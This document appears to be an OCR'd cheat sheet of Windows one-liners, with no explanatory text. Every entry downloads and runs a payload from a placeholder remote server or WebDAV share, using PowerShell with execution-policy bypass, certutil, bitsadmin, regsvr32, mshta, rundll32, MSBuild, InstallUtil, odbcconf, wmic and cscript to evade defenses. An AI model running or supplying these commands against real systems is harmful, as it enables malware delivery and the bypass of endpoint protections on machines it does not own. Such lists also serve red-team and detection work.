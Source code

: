 ```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://server/payload.ps1')|iex"```

```powershell -exec bypass -f \\webdavserver\folder\payload.ps1```

```cmd.exe /k < \\webdavserver\folder\batchfile.txt```

```certutil -urlcache -split -f http://server/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe```

```certutil -urlcache -split -f http://server/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll```

```certutil -urlcache -split -f http://server/payload payload```

```cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"```

```odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}```

```bitsadmin /Transfer myJob http://server/file.b64 C:\users\username\file.b64 && certutil -decode C:\users\username\file.b64 C:\users\username\mallicious.exe && del C:\users\username\file.b64 && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\username\malicious.exe```

```regsvr32 /u /n /s /i:http://server/payload.sct scrobj.dll```

```regsvr32 /u /n /s /i:\\server\folder\payload.sct scrobj.dll```

```wmic os get /format:"https://server/payload.xsl"```

```rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();```

```mshta http://webserver/payload.hta```

```mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))```

```mshta \\webdavserver\folder\payload.hta```

```cscript //E:jscript \\webdavserver\folder\payload.txt```
